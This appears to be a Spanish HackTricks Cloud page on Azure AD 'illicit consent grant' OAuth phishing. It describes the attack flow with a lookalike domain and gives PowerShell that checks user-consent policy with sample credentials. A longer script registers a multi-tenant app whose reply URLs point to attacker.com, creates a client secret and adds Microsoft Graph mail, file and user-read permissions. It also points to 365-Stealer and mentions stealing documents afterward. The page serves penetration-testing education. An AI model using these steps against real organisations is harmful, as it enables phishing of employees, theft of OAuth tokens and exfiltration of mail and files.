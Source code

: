 # Az - Concesión de Consentimiento Ilícito

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## Phishing de Aplicación OAuth

Las **aplicaciones de Azure** solicitan permisos para acceder a los **datos del usuario** (información básica, pero también acceso a documentos, envío de correos electrónicos...).\
Si se **permite**, un usuario normal solo puede otorgar consentimiento para **"Permisos de bajo impacto"**. En **todos los demás** casos, se requiere **consentimiento de administrador**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` y un rol personalizado que incluya `permiso para otorgar permisos a aplicaciones` pueden proporcionar consentimiento a nivel de inquilino.

Solo los permisos que **no requieren consentimiento de administrador** se clasifican como de **bajo impacto**. Estos son los permisos necesarios para **la autenticación básica son openid, profile, email, User.Read y offline\_access**. Si una **organización** **permite** el consentimiento del usuario para **todas las aplicaciones**, un empleado puede otorgar consentimiento a una aplicación para **leer lo anterior de su perfil**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, un atacante podría preparar una **aplicación maliciosa** y con un **phishing**, hacer que el usuario **acepte la aplicación y robe sus datos**.

### Verificar si los usuarios pueden otorgar consentimiento

Verifique si los usuarios pueden otorgar consentimiento a las aplicaciones:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **Desactivar el consentimiento del usuario**: los usuarios no pueden otorgar permisos a las aplicaciones.
* **Los usuarios pueden dar su consentimiento a aplicaciones de editores verificados o de su organización, pero solo para los permisos que seleccione**: todos los usuarios solo pueden dar su consentimiento a aplicaciones publicadas por un editor verificado y aplicaciones registradas en su inquilino.
* **Los usuarios pueden dar su consentimiento a todas las aplicaciones**: permite que todos los usuarios den su consentimiento a cualquier permiso que no requiera el consentimiento del administrador.
* **Política de consentimiento de aplicaciones personalizada**

## **¿Qué es un ataque de concesión de consentimiento ilícito?**

En un ataque de concesión de consentimiento ilícito, el atacante crea una **aplicación registrada en Azure que solicita acceso a datos como información de contacto, correo electrónico o documentos**. El atacante luego engaña a un usuario final para que otorgue su consentimiento a la aplicación para que el atacante pueda acceder a los datos a los que el usuario objetivo tiene acceso. Después de que se haya otorgado el consentimiento a la aplicación, esta tiene acceso a nivel de cuenta de usuario a los datos sin necesidad de una cuenta organizativa.

En palabras simples, cuando la víctima hace clic en ese hermoso botón azul de "Aceptar", Azure AD envía un token al sitio de terceros que pertenece a un atacante donde el atacante usará el token para realizar acciones en nombre de las víctimas, como acceder a todos los archivos, leer correos electrónicos, enviar correos electrónicos, etc.

## **Flujo del ataque**

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Para realizar este ataque contra la empresa "ecorp", el atacante podría registrar un dominio con el nombre "safedomainlogin.com" y crear un subdominio ["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/) donde **alojó la aplicación para capturar el código de autorización** y luego solicitar los tokens de acceso.

Luego, registra una aplicación de varios inquilinos en su inquilino de Azure AD y la nombra como "ecorp" y agrega la URL de redireccionamiento que apunta a "ecorp.safedomainlogin.com" que aloja una aplicación para capturar el código de autorización.

El atacante también crea un nuevo secreto de cliente y agrega algunos **permisos** de API como `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` en la aplicación. Para que una vez que el **usuario otorgue el consentimiento a la aplicación**, el atacante pueda **extraer** la **información sensible** en nombre del usuario.

Finalmente, el atacante crea el **enlace** que contenía el ID de cliente de la aplicación maliciosa y **comparte** el enlace con los **usuarios objetivo** para obtener su consentimiento.

## 365-Stealer

Puede realizar este ataque con [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

Como paso adicional, si tiene algún **acceso sobre un usuario en la organización víctima**, puede verificar si la política le permitirá **aceptar aplicaciones**:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
Para este ataque, deberás crear una **nueva aplicación en tu inquilino de Azure** (en Registros de aplicaciones) con, por ejemplo, los siguientes permisos:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` está dentro de `Microsoft Graph` en `Permisos delegados`. (Los permisos de aplicación siempre necesitarán aprobación adicional).

* `User.ReadBasic.All` es el permiso que te permitirá **leer información de todos los usuarios** en la organización si se concede.
* Recuerda que solo los roles `GA`, `Administrador de aplicaciones`, `Administrador de aplicaciones en la nube` y un rol personalizado que incluya `permiso para otorgar permisos a aplicaciones` pueden proporcionar el consentimiento de la organización. Por lo tanto, deberás **phishing a un usuario con uno de esos roles** si deseas que apruebe una **aplicación que requiere el consentimiento del administrador**.

También puedes crear una aplicación a través de la CLI con:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
  $AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
  $AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)

  $app.RequiredResourceAccess.Add($AADAccess)
} else {
  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Revisa [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) para aprender cómo configurarlo.

{% hint style="warning" %}
Ten en cuenta que el **token de acceso** obtenido será para el **endpoint de graph** con los ámbitos: `User.Read` y `User.ReadBasic.All` (los permisos solicitados). No podrás realizar otras acciones (pero eso es suficiente para **descargar información sobre todos los usuarios** en la organización).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

También puedes usar esta herramienta para realizar este ataque.

## Post-Explotación

Una vez que tengas acceso al usuario, puedes hacer cosas como robar documentos sensibles e incluso subir archivos de documentos con puertas traseras.

## Referencias

* Este post fue copiado de [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
